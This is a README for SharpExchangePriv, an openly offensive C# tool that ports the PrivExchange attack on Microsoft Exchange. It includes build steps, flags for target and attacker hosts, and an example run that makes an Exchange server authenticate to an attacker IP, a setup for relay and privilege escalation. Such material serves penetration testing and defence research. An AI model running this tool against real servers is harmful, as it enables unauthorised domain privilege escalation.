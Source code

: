 # SharpExchangePriv

## Description ##

A C# implementation of PrivExchange by [@_dirkjan](https://twitter.com/_dirkjan). Kudos to [@g0ldenGunSec](https://twitter.com/G0ldenGunSec), as I relied on his code.

It was tested against Exchange 2013.

## Compile Instructions ## 

SharpExchangePriv has been built against .NET 3.5 and is compatible with Visual Studio 2017. Simply open the solution file and build the project.

I used the CommandLineParser in order to parse the arguments. This will create the `CommandLine.dll` file, along with the executable. You can simple merget the .exe and the .dll into one executable file:

`ILMerge.exe /out:C:\SharpExchangePriv.exe C:\Release\SharpExchangePriv.exe C:\Release\CommandLine.dll`

## Usage ##

#### `--targetHost`

Set the IP of the target host.

#### `--attackerHost`

Set the attacker's IP

#### `--attackerPort`

Set the attacker's port

#### `--attackerPage`

Set the attacker's page

#### `--ssl`

Enable SSL

#### `--exchangeVersion`

Set Exchange version, default is 2015

#### `--exchangePort`

Set Exchange target port

## Example ##

```
C:\Users\george.brown\Desktop>SharpExchangePriv.exe --attackerHost 192.168.11.132 --targetHost 192.168.11.10
 /$$$$$$$           /$$            /$$$$$$$$                     /$$
| $$__  $$         |__/           | $$_____/                    | $$
| $$  \ $$ /$$$$$$  /$$ /$$    /$$| $$       /$$   /$$  /$$$$$$$| $$$$$$$   /$$$$$$  /$$$$$$$   /$$$$$$   /$$$$$$
| $$$$$$$//$$__  $$| $$|  $$  /$$/| $$$$$   |  $$ /$$/ /$$_____/| $$__  $$ |____  $$| $$__  $$ /$$__  $$ /$$__  $$
| $$____ /| $$  \__ /| $$ \  $$/$$/ | $$__ /    \  $$$$/ | $$      | $$  \ $$  /$$$$$$$| $$  \ $$| $$  \ $$| $$$$$$$$
| $$     | $$      | $$  \  $$$/  | $$        >$$  $$ | $$      | $$  | $$ /$$__  $$| $$  | $$| $$  | $$| $$_____ /
| $$     | $$      | $$   \  $/   | $$$$$$$$ /$$/\  $$|  $$$$$$$| $$  | $$|  $$$$$$$| $$  | $$|  $$$$$$$|  $$$$$$$
|__/     |__/      |__/    \_/    |________/|__/  \__/ \_______/|__/  |__/ \_______/|__/  |__/ \____  $$ \_______/
                                                                                               /$$  \ $$
                                                                                              |  $$$$$$/
                                                                                               \______ /
                                                                                                            @den_n1s

The target URL is https://192.168.11.10:443/EWS/Exchange.asmx

Sent request to exchange server: https://192.168.11.10:443/EWS/Exchange.asmx

HTTP 200 response received, the target Exchange server should be authenticating shortly.
```

## Contact ##

Please submit any bugs on the Github project page or give me a shout on twitter [@den_n1s](https://twitter.com/den_n1s)

